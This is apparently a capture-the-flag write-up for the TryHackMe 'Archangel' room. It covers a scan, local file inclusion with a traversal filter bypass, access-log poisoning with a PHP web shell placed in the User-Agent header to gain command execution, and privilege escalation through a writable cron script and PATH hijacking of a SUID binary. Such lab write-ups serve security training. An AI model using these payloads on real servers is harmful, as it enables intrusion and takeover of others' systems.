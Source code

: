 # Archangel

[<img src=".Images/archangel.jpeg" height=199px>](https://tryhackme.com/room/archangel)

*Boot2root, Web exploitation, Privilege escalation, LFI* - [Archangel](https://tryhackme.com/p/Archangel)

Difficulty: *Easy*

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

## [Scan/Enumeration]

Let's start with nmap scan.

![archangel-1](.Images/archangel-1.png)

We have SSH on 22 and HTTP on 80. When I check web page, I see `mafialive.thm` in the header and add this my hosts file. In this page I'm doing gobuster scan for txt,php and html extensions with common.txt. When scanning I check the robots.txt file and I see test.php. In this page, when we click the button we see view parameter and /var/www/html/development_testing/mrrobot.php directory. We can try LFI in here. When I try `../../../../../../etc/passwd` I see thats not allowed. For see what is allowed I try `/var/www/html/development_testing`, and this is allowed but when I try `/var/www/html/` I see this isn't allowed. So `/var/www/html/development_testing/` must be in parameter. 

I try `/var/www/html/development_testing/../../../../../etc/passwd` , `/var/www/html/development_testing/....//....//....//....//etc/passwd` , `/var/www/html/development_testing/....\/....\/....\/etc/passwd` and more bypass. Finally I found this: 

`/var/www/html/development_testing/..///////..////..//////..////..//////..////..//////etc/passwd`

![archangel-2](.Images/archangel-2.png)

## [Gain Shell]

Firstly I try to find id_rsa file for archangel user but there is no id_rsa. After I try to read `/var/log/apache2/access.log` and I can. We can use this file for LFI to RCE. I'm copy the mafialive.thm request as curl from browser developer tools and I add php command to User-Agent.

`'User-Agent: <?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>'`

Now I try to run id command.

`mafialive.thm/test.php?view=/var/www/html/development_testing/..///////..////..//////..////..//////..////..//////var/log/apache2/access.log&cmd=id`

![archangel-3](.Images/archangel-3.png)

Now I upload php reverse shell file with wget and acces shell.

## [Privilege Escalation]

I check archangel users home directory but there is nothing for us. I check suid files but there is too nothing interesting. Lastly I check cronjobs and I found /opt/helloworld.sh file work every second. When i check helloworld.sh file i see we have write permission.

![archangel-4](.Images/archangel-4.png)

We have a directory named secret in archangel home directory. We have a executable file, called backup in here. To understand how this file works I use strings command. I found this line `cp /home/user/archangel/myfiles/* /opt/backupfiles`. We can try to change PATH for exploit this but first we need to learn can we run this file with root privilege. I check the suid files and i see we can run this backup file with suid privilege so we can exploit PATH.

![archangel-5](.Images/archangel-5.png)
